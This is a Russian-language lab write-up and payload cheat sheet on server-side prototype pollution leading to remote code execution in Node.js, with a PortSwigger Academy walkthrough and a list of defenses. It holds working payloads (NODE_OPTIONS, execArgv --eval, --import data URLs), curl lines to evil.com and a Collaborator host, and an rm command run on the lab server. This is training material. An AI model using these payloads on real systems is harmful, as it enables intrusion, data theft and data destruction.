


## RCE через загрязнение прототипа на стороне сервера

> предупреждение самому себе, подобное тестирование может полностью убить сервер, поэтому в реальности - такие проверки делать очень осторожно и при полном понимании происходящего

#### доп теория кратко

### ключевые векторы атаки (Sinks)
### суть
==child_process==
все атаки направлены на модуль child_process. Если приложение где-то создает дочерние процессы (spawn, fork, exec), можно попытаться перехватить управление

-------

### список конкретных пэйлоадов для RCE

#### 1. через NODE_OPTIONS + env (классика)

Цель: Заставить Node.js загрузить вредоносный код из переменных окружения.  
Механика: Загрязняем NODE_OPTIONS, чтобы он загружал файл /proc/self/environ, куда мы предварительно через загрязнение env записали наш код
Пэйлоад:


```json
"__proto__": {
    "NODE_OPTIONS": "--require /proc/self/environ",
    "env": {
        "EVIL": "console.log(require('child_process').execSync('id').toString())//"
    }
}

Примечание: Работает в Linux.
```

#### 2. через argv0 + NODE_OPTIONS (обход через cmdline)

Цель: Использовать /proc/self/cmdline вместо /proc/self/environ.  
Механика: Загрязняем argv0 (аргумент процесса), а NODE_OPTIONS загружает этот файл.  
Пэйлоад:

```json
"__proto__": {
    "NODE_OPTIONS": "--require /proc/self/cmdline",
    "argv0": "console.log(require('child_process').execSync('id').toString())//"
}
```

#### 3. через shell + input (атака на execSync)

Цель: Заставить execSync выполнить произвольную команду, используя нестандартную оболочку.  
Механика: Если приложение вызывает execSync, можно подменить оболочку (shell) и передать ей команду через stdin (input).  
Пэйлоад (если есть Vim):

```json
"__proto__": {
    "shell": "vim",
    "input": ":! curl https://evil.com\n"
}
```
Пэйлоад (для вывода данных через curl):

```json
"__proto__": {
    "shell": "vim",
    "input": ":! curl -d @- https://YOUR-COLLABORATOR-ID.oastify.com\n"
}
```

#### 4. через --import (самый мощный, Node ≥ 19)

Цель: Выполнить код без создания файлов на диске.  
Механика: Используем флаг --import, который умеет работать с data: URL. Пэйлоад кодируется в base64
Пэйлоад:

```json
"__proto__": {
    "NODE_OPTIONS": "--import='data:text/javascript;base64,cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCd0b3VjaCAvdG1wL3B3bmQnKQ=='"
}

(Base64 декодируется в require('child_process').execSync('touch /tmp/pwnd'))
```
#### 5. через execArgv в fork()

Цель: Использовать аргументы дочернего процесса, если приложение использует fork().  
Механика: Подменяем массив execArgv, чтобы передать флаг --eval
Пэйлоад:

```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('id')"]
}
```
### обход через constructor

Если **proto** блокируется, используй constructor.prototype:

```json
"constructor": {
    "prototype": {
        "NODE_OPTIONS": "--import='data:text/javascript;console.log(1337)'"
    }
}
```

### кратко  - про обнаружению

Чтобы найти, где происходит вызов уязвимой функции, используют Burp Collaborator
Загрязняешь прототип пэйлоадом, который делает DNS-запрос на твой коллаборатор, и смотришь, какой запрос его вызвал:

```json
"__proto__": {
    "NODE_OPTIONS": "--import=\"data:text/javascript,import dns from 'node:dns';dns.lookup('YOUR-ID.oastify.com', x=>1)\""
}
```


----------------

⭐️👉🍺⭐️👉🍺⭐️👉🍺⭐️👉🍺⭐️👉🍺⭐️👉🍺⭐️👉🍺⭐️👉🍺

лаба https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution

найти источник загрязнения Object.prototype
определить гаджет
командой серверу удалить файл /home/carlos/morale.txt

-----


вот запрос который выполняет некие тех работы

```http
POST /admin/jobs HTTP/2
Host: 0a29005d03bc266e811e5c34005e00b6.web-security-academy.net
Cookie: session=dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU
Content-Length: 126
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a29005d03bc266e811e5c34005e00b6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a29005d03bc266e811e5c34005e00b6.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{
"csrf":"z6tXGMXHa3RKGNs4o9fHzrNkPHRz6z9S",

"sessionId":"dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU",

"tasks":["db-cleanup","fs-cleanup"]}
```

ответ 419 байт стабильно
```http
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"9b-vSLPaDAopDKZgkvmHAZqtO9FzcY"
Date: Tue, 17 Mar 2026 15:17:27 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 155

{
"results":
[
{
"name":"db-cleanup",
"description":"Database cleanup",
"success":true},
{"name":"fs-cleanup",
"description":"Filesystem cleanup",
"success":true
}
]
}
```

---------

пробую базовые пейлоады
`   "__proto__" :{"foo":"qwerty1417"}   `
пейлоад
```json
{
"__proto__" :{"foo":"qwerty1417"},
"csrf":"z6tXGMXHa3RKGNs4o9fHzrNkPHRz6z9S","sessionId":"dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU","tasks":["db-cleanup","fs-cleanup"]}
```
реузьтат не поменялся никак

--------

вот реакция на синтаксическую ошибку 
```http
HTTP/2 500 Internal Server Error
Content-Length: 21

Internal Server Error
```

------

пробую конструктом

```json
{
"constructor": {
    "prototype": {
        "json spaces":10
    }
},
"csrf":"z6tXGMXHa3RKGNs4o9fHzrNkPHRz6z9S","sessionId":"dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU","tasks":["db-cleanup","fs-cleanup"]}
```
реузьтат не поменялся никак

----

я перепробовал все пейлоады, что есть вверху моейго этого конспекта, везде ответы одинаковые, всегда ответ 200 на 419 байт 

-----

видимо тут нет уязвимости!!

ищу другое место!!

поищу ка я через ИНВАЙДЕР

отлично, сканер нашел в этом запросе возможную уязвимость




```http
POST /my-account/change-address HTTP/2
Host: 0a29005d03bc266e811e5c34005e00b6.web-security-academy.net
Cookie: session=dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU
Content-Length: 173
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a29005d03bc266e811e5c34005e00b6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a29005d03bc266e811e5c34005e00b6.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"address_line_1":"Wiener HQ3","address_line_2":"One Wiener Way3","city":"3Wienerville","postcode":"BU1 1RP3","country":"UK3","sessionId":"dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU"}
```


---------


после работы сканера 
в ответе от серева куча всего! (в продакте - может быть опасно конечно такое)

```json
{"username":"wiener","firstname":"Peter",

"lastname":"Wiener",
"address_line_1":"Wiener HQ3",
"address_line_2":"One Wiener Way3",
"city":"3Wienerville",
"postcode":"BU1 1RP3",
"country":"UK3",
"cadf19d0":"foo",
"__proto__.json spaces":" ",
"__proto__.exposedHeaders":["f1e3f7a9"],
"__proto__.status":510,"__proto__.head":false,
"__proto__[head]":false,
"__proto__[status]":510,
"__proto__[json spaces]":" ",
"__proto__[exposedHeaders]":["f1e3f7a9"],
"isAdmin":true,"head":false,
"f1a987bd":"foo",
"7e0657ab-9377-44d7-8c63-7ea997c538fd":"d5a347a2",
"status":0,
"json spaces":"",
"exposedHeaders":["f1e3f7a9"]}
```

ну и собственно, все , что тут новое есть - это то что сохранилось на сервере! и это можно использовать для выполнения кода!

------

теперь нужно понять, куда подставлять команды для шел, и понять что это возможно здесь!

пробую
```json
"__proto__": {
    "execArgv": ["--eval=require('child_process').execSync('id')"]
}
```
и вуаля! код отразился! возможно, код выполняется.. но я не вижу вывода данных!!




пробую сразу подставить команду на ремув файла `rm /home/carlos/morale.txt`
```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```
ответ просто 200 - лаба не выполнена, файл не удален!
```json
{
"username":"wiener","firstname":"Peter","lastname":"Wiener",
"address_line_1":"Wiener HQ3","address_line_2":"One Wiener Way3","city":"3Wienerville",

"postcode":"BU1 1RP3","country":"UK3","cadf19d0":"foo","__proto__.json spaces":" ","__proto__.exposedHeaders":["f1e3f7a9"],"__proto__.status":510,"__proto__.head":false,"__proto__[head]":false,"__proto__[status]":510,"__proto__[json spaces]":" ","__proto__[exposedHeaders]":["f1e3f7a9"],"isAdmin":true,"head":false,"f1a987bd":"foo","7e0657ab-9377-44d7-8c63-7ea997c538fd":"d5a347a2","status":0,"json spaces":"","exposedHeaders":["f1e3f7a9"],

"execArgv":["--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"]} // вот здесь отразился в ответе как json
```

------

выполняю снова запрос - на выполнение серверных работ

```http
POST /admin/jobs HTTP/2
Host: 0a29005d03bc266e811e5c34005e00b6.web-security-academy.net
Cookie: session=dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU
Content-Length: 130
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: */*
Origin: https://0a29005d03bc266e811e5c34005e00b6.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a29005d03bc266e811e5c34005e00b6.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{

"csrf":"z6tXGMXHa3RKGNs4o9fHzrNkPHRz6z9S","sessionId":"dDtspnDaU6Cw4Z21e0pL9WTRNflGmrOU","tasks":["db-cleanup","fs-cleanup"]}
```

### ⭐️ЛАБА РЕШЕНА !!!!!!!!

ответ теперь не 419 байт по стандарту

а на 451!

вот новый ответ c ошибками!
```json
{
"results":
[
{
"name":"db-cleanup",
"success":false,

"error":{"code":1,"message":"Unexpected error."}},
{"name":"fs-cleanup",

"success":false,
"error":{"code":1,"message":"Unexpected error."}
}
]
}
```

вот старый ответ
```json
{
"results":
[
{
"name":"db-cleanup",
"description":"Database cleanup",
"success":true},

{"name":"fs-cleanup",
"description":"Filesystem cleanup",
"success":true
}
]
}
```

-----

### выводы

В этой лабе я использовал server-side prototype pollution для удаленного выполнения кода на сервере через уязвимость в модуле child_process, как в 5 варианте из способов взлома - на этой странице!

> источником загрязнения стал запрос на изменение адреса POST /my-account/change-address

Через него я добавил в Object.prototype свойство execArgv с массивом, содержащим флаг --eval. Внутри eval я встроил вызов child_process.execSync() с командой на удаление файла rm /home/carlos/morale.txt - как по заданию!

Сам код не выполнился сразу после отправки запроса. Он только попал в прототип и стал доступен для всех объектов.

Затем я тупил и тыкал все подряд, но потом перешел в админ-панель и запустил фоновые задачи через POST /admin/jobs.

Эти задачи, видимо, запускались через child_process.fork(), который при создании дочернего процесса проверил наличие опции execArgv.
Так как разработчик не задал ее явно, Node.js взял значение из прототипа и передал дочернему процессу флаг `--eval` с моей командой
после этого задачи завершились с ошибкой, а файл carlos был удален, лаба решилась

### защита  (от RCE через prototype pollution)


1, нужно замораживать прототипы через Object.freeze(Object.prototype) в самом начале работы приложения

2, при создании дочерних процессов всегда явно задавать все параметры, включая execArgv, и не полагаться на значения из прототипа

3, использовать Object.create(null) для объектов, которые наполняются пользовательскими данными

4, валидировать входящий JSON и удалять ключи proto, constructor и prototype

5, не запускать системные команды от имени привилегированных пользователей и использовать минимально необходимые права

----------------
